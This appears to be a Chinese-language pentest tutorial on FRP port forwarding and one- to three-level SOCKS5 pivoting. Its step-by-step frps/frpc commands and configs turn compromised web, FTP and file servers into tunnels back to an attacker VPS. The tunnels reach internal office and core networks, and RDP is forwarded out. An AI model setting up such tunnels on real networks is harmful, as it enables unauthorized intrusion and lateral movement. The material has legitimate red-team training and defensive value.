

# 端口转发

## FRP

**将web服务器的3389端口转发到VPS的3389端口**

1. 在VPS上执行以下命令，启动FRP服务端 shell

```shell
./frps -c ./frps.ini
```

 frps.ini内容如下： 

```
[common] bind_addr = 0.0.0.0 bind_port = 7000
```

- 在web服务器上执行以下命令，启动FRP客户端，连接vps的服务端 shell

```
./frpc.exe -c ./frpc.ini
```

 frpc.ini内容如下： 

```
[common] 
server_addr = 100.100.100.10 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 127.0.0.1 
local_port = 3389 
remote_port = 33890
```

**将web服务器的3389端口转发到web服务器的的33890端口**

1. 在web服务器上执行以下命令，启动FRP服务端 shell

```
./frps -c ./frps.ini
```

 frps.ini内容如下： 

```
[common] 
bind_addr = 0.0.0.0 
bind_port = 7000
```

- 在web服务器上执行以下命令，启动FRP客户端，连接vps的服务端 shell

```
./frpc.exe -c ./frpc.ini
```

 frpc.ini内容如下： 

```
[common] 
server_addr = 127.0.0.1 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 127.0.0.1 
local_port = 3389 
remote_port = 33890
```

# 内网代理

## FRP

[](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/202302081501409.png)

### 一级代理

此时已经获得DMZ区web服务器的权限，将web服务器作为跳板打通DMZ区的网络，使得kali可以访问到FTP服务器

vps -> web服务器 -> DMZ区网络

1. 使用vps作为FRP的服务端，在VPS执行shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 0.0.0.0 
bind_port = 7000
```

- 使用web服务器作为FRP客户端，执行shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] 
server_addr = 100.100.100.10 
server_port = 7000 
[socks5] 
remote_port = 1080 
plugin = socks5
```

完成后**在vps上会开启socks代理端口1080**，使用代理软件代理即可。

### 二级代理

此时已经获取到DMZ区域的web服务器和FTP服务器权限，将web服务器和FTP服务器同时作为跳板，打通到达办公区的网络

vps -> web服务器 -> FTP服务器 -> 办公区网络

1. 在VPS上执行以下命令，启动FRP服务端shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 0.0.0.0 
bind_port = 7000
```

- 在web服务器上执行以下命令，启动FRP客户端，连接vps的服务端shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

- 这将本地的10808端口转发到VPS的1080端口

```
[common] 
server_addr = 100.100.100.10 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 10.10.10.20 
local_port = 10808 
remote_port = 1080
```

- 在web服务器上执行以下命令，启动一个FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 10.10.10.20 
bind_port = 7000
```

- 在FTP服务器上执行以下命令，启动FRP客户端shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] 
server_addr = 10.10.10.20 
server_port = 7000 
[socks5] 
type = tcp 
remote_port = 10808 
plugin = socks5
```

完成后**在vps上会开启socks代理端口1080**，使用代理软件代理即可访问办公区网络。

**最终的隧道：**

```
VPS（100.100.100.10）    
监听：0.0.0.0:1080、0.0.0.0:7000     
<--> web服务器（10.10.10.20）    
连接：100.100.100.10:7000    监听：10.10.10.20:7000、10.10.10.20:10808      
<--> ftp服务器（10.10.10.30、192.168.30.10）    
连接：10.10.10.20:7000
<-->办公区网络（192.168.30.0/24）
```

### 三级代理

此时已获得DMZ区的web服务器和FTP服务器权限，以及办公区的文件服务器权限，将web服务器和FTP服务器以及文件服务器同时作为跳板，打通到达核心区的网络

vps -> web服务器 -> FTP服务器 -> 办公区文件服务器 -> 核心区网络

1. 在VPS上启动FRP服务端shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 0.0.0.0 
bind_port = 7000
```

- 在web服务器上启动FRP客户端，同时将本地的10808端口转发到VPS的1080端口shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

- 这将本地的10808端口转发到VPS的1080端口

```
[common] 
server_addr = 100.100.100.10 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 10.10.10.20 
local_port = 10808 
remote_port = 1080
```

- 在web服务器上启动一个FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 10.10.10.20 
bind_port = 7000
```

- 在FTP服务器上启动FRP客户端，连接web服务器的FRP服务端，同时将FTP服务端的10809端口转发到Web服务器的10808端口shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] 
server_addr = 10.10.10.20 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 192.168.30.10 
local_port = 10809 
remote_port = 10808
```

- 在FTP服务器上启动FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 192.168.30.10 
bind_port = 7000
```

- 在办公区的文件服务器上启动FRP客户端，连接FTP服务器的服务端，并在FTP服务器的10809端口上启动socks5代理服务shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] 
server_addr = 192.168.30.10 
server_port = 7000 
[socks5] type = tcp 
remote_port = 10809 
plugin = socks5
```

**最终的隧道：**

```shell
VPS（100.100.100.10）
    监听：0.0.0.0:1080、0.0.0.0:7000
    
<--> web服务器（10.10.10.20）
    连接：100.100.100.10:7000
    监听：10.10.10.20:7000、10.10.10.20:10808 
    
<--> ftp服务器（10.10.10.30、192.168.30.10）
    连接：10.10.10.20:7000
    监听：192.168.30.10:10809 、192.168.30.10:7000 
    
<--> 文件服务器（192.168.30.100、192.168.60.100）
    连接：192.168.30.10:7000 
    
<-->核心区网络（192.168.60.0/24）
```

